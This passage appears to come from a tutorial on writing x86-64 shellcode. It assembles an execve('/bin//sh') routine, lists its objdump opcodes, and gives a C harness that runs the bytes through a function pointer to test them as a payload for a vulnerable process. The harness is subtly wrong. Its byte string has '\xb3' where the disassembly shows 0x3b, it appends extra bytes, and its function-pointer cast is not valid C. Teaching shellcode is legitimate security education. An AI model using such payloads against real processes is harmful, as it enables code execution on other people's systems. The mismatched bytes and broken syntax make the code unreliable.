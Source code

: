 Compiling this code with the command `yasm -dwarf2  -f elf64 shellcode.asm -o shellcode.o` provides the corresponding object file with the op-codes. Using the command `objdump -d shellcode.o` we get the following output:

```
shellcode.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <_start>:
   0:	48 31 c0             	xor    %rax,%rax
   3:	50                   	push   %rax
   4:	48 bb 2f 2f 62 69 6e 	movabs $0x68732f6e69622f2f,%rbx
   b:	2f 73 68 
   e:	53                   	push   %rbx
   f:	b0 3b                	mov    $0x3b,%al
  11:	48 89 e7             	mov    %rsp,%rdi
  14:	0f 05                	syscall 
```

In the middle column you can find the op-codes of our program. Linking the program with `ld shellcode.o -o shellcode` creates the executable that allows us to test, if the code indeed behaves as expected.

Note however, that our shellcode, the machine instructions (opcodes) we want to fill into the memory of a vulnerable process, corresponds to the bytes in the middle column of `shellcode.o`.

## Simple Test of the Shellcode

There are multiple ways to test if the shellcode works when inserted into the memory of a given process. We provide a simple example that allows us test the shellcode from the last paragraph.

Consider the following `C` code:

```
#include<stdlib.h>

int main()
{
	char shellcode[] = "\x48\x31\xc0\x50\x48\xbb\x2f\x2f"
					"\x62\x69\x6e\x2f\x73\x68\x53\xb0"
					"\xb3\x48\x89\xe7\x0f\x05\x90\x90";

	int (*func)();
	func = (int (*))() shellcode;
	(*func)();
}
```

In this code we have added our shellcode in the string variable `shellcode`. Then we have defined a pointer (`func`) to a function. On the next line, we have made the function pointer to point to the `shellcode` variable (we have cast `shellcode` accordingly, such that the compiler does not complain). Finally, we call the function `func` that is the supposed to execute our shellcode.
